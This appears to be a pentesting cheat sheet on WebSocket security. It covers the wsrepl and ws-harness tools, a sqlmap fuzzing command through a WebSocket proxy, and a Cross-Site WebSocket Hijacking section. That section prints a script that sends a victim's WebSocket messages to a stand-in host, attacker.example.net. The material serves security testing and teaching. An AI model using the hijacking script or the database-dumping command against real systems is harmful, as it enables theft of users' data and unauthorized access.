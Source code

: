 # Web Sockets

> WebSocket is a communication protocol that provides full-duplex communication channels over a single, long-lived connection. This enables real-time, bi-directional communication between clients (typically web browsers) and servers through a persistent connection. WebSockets are commonly used for web applications that require frequent, low-latency updates, such as live chat applications, online gaming, real-time notifications, and financial trading platforms.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Using wsrepl](#using-wsrepl)
    * [Using ws-harness.py](#using-ws-harness-py)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)


## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)


## Methodology

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```


### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.


## Labs

* [PortSwigger - Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
* [Root Me - Web Socket - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/Web-Socket-0-protection)


## References

- [Hacking Web Sockets: All Web Pentest Tools Welcomed - Michael Fowl - March 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Mike Shema, Sergey Shekyan, Vaagn Toukharian - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - Snowscan - January 27, 2020](https://snowscan.io/bbsctf-evilconneck/#)
- [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - July 18, 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
- [Testing for WebSockets security vulnerabilities - PortSwigger - September 28, 2019](https://portswigger.net/web-security/websockets)
- [WebSocket Attacks - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)